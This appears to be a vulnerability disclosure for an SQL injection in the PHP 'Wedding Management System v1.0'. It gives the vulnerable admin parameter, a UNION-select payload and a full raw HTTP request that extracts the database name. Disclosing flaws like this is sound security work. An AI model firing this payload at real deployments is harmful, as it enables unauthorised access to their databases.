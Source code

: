 # Wedding Management System v1.0 by codeastr.com has SQL injection

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: \admin\feature_edit.php

Vulnerability location: /Wedding-Management/admin/feature_edit.php?id=, id

[+] Payload: id=-8%20union%20select%201,2,database(),4--+

dbname = dbwedding

```sql
GET /Wedding-Management/admin/feature_edit.php?id=-8%20union%20select%201,2,database(),4--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/167984292-f278b8d3-84e7-4f7c-87b4-54a325f6caf2.png)

![image](https://user-images.githubusercontent.com/54017627/167984210-3a078777-568f-494a-afb8-0d87550dd1a6.png)
